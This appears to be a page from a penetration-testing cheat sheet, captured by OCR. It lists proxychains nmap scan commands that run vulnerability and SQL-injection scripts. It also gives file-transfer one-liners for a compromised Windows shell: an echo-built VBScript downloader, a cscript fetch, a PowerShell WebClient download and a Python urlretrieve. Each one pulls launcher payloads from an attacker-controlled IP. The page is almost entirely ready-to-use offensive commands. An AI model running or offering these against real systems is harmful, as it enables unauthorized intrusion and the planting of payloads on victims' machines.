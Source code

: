 # noisy proxychains version scan for top 1000 (might skip ports)
sudo proxychains3 nmap -T4 --top-ports 1000 -sTV -sC -Pn --open -n --max-os-tries 1 --privileged -n -v --max-retries 3 --min-rtt-timeout 500ms --max-rtt-timeout 3000ms --initial-rtt-timeout 500ms --defeat-rst-ratelimit --min-rate 450 --max-rate 15000 --script-timeout 180 --data-length=50 --min-parallelism 100 --oA proxychains_nmap_IP --append-output <IP>

# noisy proxychains version scan for top 5000 (might skip ports)
sudo proxychains3 nmap -T4 --top-ports 1000 -sTV -Pn --open -n --max-os-tries 1 --privileged -n -v --max-retries 3 --min-rtt-timeout 500ms --max-rtt-timeout 3000ms --initial-rtt-timeout 500ms --defeat-rst-ratelimit --min-rate 450 --max-rate 15000 --script http-unsafe-output-escaping --script http-sql-injection --script smb-os-discovery --script smb-enum-shares --script nfs-ls --script vuln --script-timeout 180 --data-length=50 --min-parallelism 100 --oA proxychains_nmap_IP --append-output <IP>

 

## Uploading Files with VBScript

# execute command below on target shell
echo dim xHttp: Set xHttp = CreateObject("MSXML2.ServerXMLHTTP.6.0")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs &echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs &echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs

# fire up a python server and execute command after
cscript dl.vbs "http://172.16.40.5/launcher.vbs" ".\launcher.vbs"

# powershell one-liner uploading files to target  from attacker
IEX(New-Object System.Net.WebClient).DownloadFile("http://172.16.40.5/launcher.bat", "C:\Users\Public\Downloads\launcher.bat")

## Uploading Files with Python

# python download one-liner
python -c "import urllib.request; urllib.request.urlretrieve('http://172.16.40.5/launcher.bat', 'C:\\Users\\Public\\Downloads\\launcher.bat');"

## Uploading files with Scripting When All Else Fails

# Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse shell and used to transfer files from a web server (the timeout 1 commands are required after each new line)
